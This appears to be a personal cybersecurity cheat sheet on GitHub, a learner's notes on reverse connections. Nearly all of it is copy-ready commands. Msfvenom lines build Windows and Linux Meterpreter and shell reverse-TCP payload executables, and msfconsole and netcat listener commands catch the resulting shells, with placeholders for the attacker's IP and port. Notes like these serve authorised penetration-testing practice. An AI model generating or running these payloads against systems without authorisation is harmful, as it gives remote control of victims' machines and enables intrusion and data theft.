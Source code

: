 # Security Notes
Documenting my journey in the world of CyberSecurity




##  Reverse Conneciton 

### Meterpreter
**Windows**

MSFVenom Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
**Linux**  

MSFVenom Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
### Netcat

**Windows** 

MSFVenom Payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
Netcat Listener
```
nc -lvp <Your_Port>
```
**Linux**
 
MSFVenom Payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
Netcat Listener
```
nc -lvp <Your_Port>
```
Replace <Your_IP> with your IP address and <Your_Port> with the desired port number for the reverse connection.
